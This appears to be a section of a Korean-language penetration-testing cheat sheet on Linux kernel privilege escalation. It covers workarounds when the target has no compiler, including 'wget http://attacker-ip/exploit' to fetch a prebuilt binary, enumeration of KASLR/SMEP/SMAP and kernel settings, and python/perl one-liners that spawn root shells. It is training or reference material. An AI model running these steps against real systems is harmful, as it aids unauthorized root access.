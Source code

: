 ## 👀 놓치기 쉬운 것들

### 🚨 컴파일 환경 문제

```bash
# 1. 컴파일러 부재시 대안
# 사전 컴파일된 바이너리 검색
find /tmp /var/tmp /dev/shm -name "*exploit*" -o -name "*pwn*" 2>/dev/null

# 다른 머신에서 컴파일 후 전송
# 로컬에서: gcc exploit.c -o exploit -static
# 타겟으로 전송: wget http://attacker-ip/exploit

# 2. 라이브러리 의존성 문제
ldd exploit  # 의존성 확인
gcc exploit.c -o exploit -static  # 정적 링킹

# 3. 아키텍처 불일치
file exploit  # 바이너리 아키텍처 확인
uname -m     # 시스템 아키텍처 확인
```

### 🔍 커널 모듈 및 보안 기능

```bash
# 1. KASLR (Kernel ASLR) 확인
cat /proc/cmdline | grep kaslr
dmesg | grep -i kaslr

# 2. SMEP/SMAP 확인
grep -E "(smep|smap)" /proc/cpuinfo
cat /proc/cmdline | grep -E "(nosmep|nosmap)"

# 3. 로드된 커널 모듈
lsmod | head -20
cat /proc/modules | head -20

# 4. 커널 설정 확인
cat /boot/config-$(uname -r) 2>/dev/null | grep -E "(STACK|SMEP|SMAP|KASLR)"
zcat /proc/config.gz 2>/dev/null | grep -E "(STACK|SMEP|SMAP|KASLR)"

# 5. GCC 스택 보호 확인
echo 'int main(){return 0;}' | gcc -x c - -o test -v 2>&1 | grep stack-protector
```

### 🎯 대안 익스플로잇 경로

```bash
# 1. 컴파일 없이 실행 가능한 스크립트들
find /tmp -name "*.sh" -o -name "*.py" -o -name "*.pl" 2>/dev/null | xargs file

# 2. 인터프리터 언어 익스플로잇
python -c "import os; os.setuid(0); os.system('/bin/bash')"  # 취약한 python 설치시
perl -e 'exec "/bin/sh"' # 취약한 perl 설치시

# 3. 쉘 스크립트 기반 익스플로잇
cat > shell_exploit.sh << 'EOF'
#!/bin/bash
# CVE 기반 쉘 스크립트 익스플로잇
echo "Trying kernel exploit..."
# 익스플로잇 로직
EOF
chmod +x shell_exploit.sh
./shell_exploit.sh
```